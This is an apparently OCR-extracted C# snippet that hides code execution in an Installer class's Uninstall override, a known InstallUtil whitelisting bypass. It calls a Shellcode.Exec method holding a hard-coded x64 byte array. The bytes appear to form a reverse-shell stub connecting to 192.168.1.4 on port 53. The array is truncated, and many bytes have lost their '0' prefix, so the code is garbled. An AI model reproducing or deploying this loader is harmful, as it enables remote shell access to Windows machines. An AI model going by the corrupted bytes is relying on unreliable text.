 ```c#

public override void Uninstall(System.Collections.IDictionary savedState)

{ 

Shellcode.Exec(); 

} 

} 

public class Shellcode

{

public static void Exec()

{ 

byte[] shellcode = new byte[510] {

0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,

0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,x48,

0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,xc9,

0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,x41,

0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,x48,

0x01,0xd0,0x66,0x81,0x78,0x18,0x0b,0x02,0x0f,0x85,0x72,0x00,0x00,0x00,x8b,

0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,x8b,

0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,x41,

0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,xc1,

0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,x45,

0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,x8b,

0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,x01,

0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,x48,

0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,xe9,

0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x00,x00,

0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,0x49,0x89,xe5,

0x49,0xbc,0x02,0x00,0x00,0x35,0xc0,0xa8,0x01,0x04,0x41,0x54,0x49,0x89,xe4,

0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,x68,

0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,x0a,

0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,x89,

0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,xd5,

```